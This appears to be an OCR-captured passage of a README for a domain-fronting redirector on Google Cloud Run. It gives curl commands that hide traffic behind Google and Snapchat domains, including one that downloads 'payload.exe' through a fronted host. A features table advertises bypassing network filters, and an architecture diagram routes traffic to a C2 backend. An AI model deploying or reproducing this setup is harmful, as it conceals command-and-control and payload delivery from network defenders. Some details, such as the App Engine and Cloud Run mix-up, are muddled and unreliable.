 **Using App Engine Hosted Sites:**
```bash
# Through Snapchat's API (hosted on App Engine)
curl -H "Host: redirector-api-abc123xyz.us-central1.run.app" \
     -H "User-Agent: Snapchat/11.0.0 (iPhone; iOS 14.0)" \
     https://api.snapchat.com/v1/updates
```

**File Download Example:**
```bash
# Download file through domain fronting
curl -H "Host: redirector-files-abc123xyz.us-central1.run.app" \
     -o payload.exe \
     https://dl.google.com/software/update.exe
```

**Persistent Connection Example:**
```bash
# WebSocket-like persistent connection
curl -H "Host: redirector-stream-abc123xyz.us-central1.run.app" \
     -H "Connection: keep-alive" \
     -N https://apis.google.com/stream
```

## ✨ Features

| Feature | Description | Benefit |
|---------|-------------|---------|
| 🌐 **Domain Fronting** | Route through Google domains | Bypass network filters |
| 🔄 **Full HTTP Proxy** | Supports all HTTP methods | Complete protocol support |
| 📝 **Request Preservation** | Forwards headers, body, params | Transparent proxying |
| 🚀 **Auto-scaling** | Google Cloud Run serverless | Handles traffic spikes |
| 🔒 **TLS Passthrough** | Works with self-signed certs | Flexible backend support |
| ⚡ **Low Latency** | Minimal Go binary | Fast request processing |
| 🐳 **Containerized** | Docker-based deployment | Easy management |

## 🏗️ Architecture

```
┌─────────────────┐
│     Client      │
└────────┬────────┘
         │ HTTPS (TLS: google.com)
         │ Host: your-redirector.run.app
┌────────▼────────┐
│  Google Edge    │
│   (CDN/LB)      │
└────────┬────────┘
         │ Routes by Host header
┌────────▼────────┐
│  Cloud Run      │
│  (Redirector)   │
└────────┬────────┘
         │ HTTPS
┌────────▼────────┐
│ Backend Server  │
│   (C2/API)      │
└─────────────────┘
```
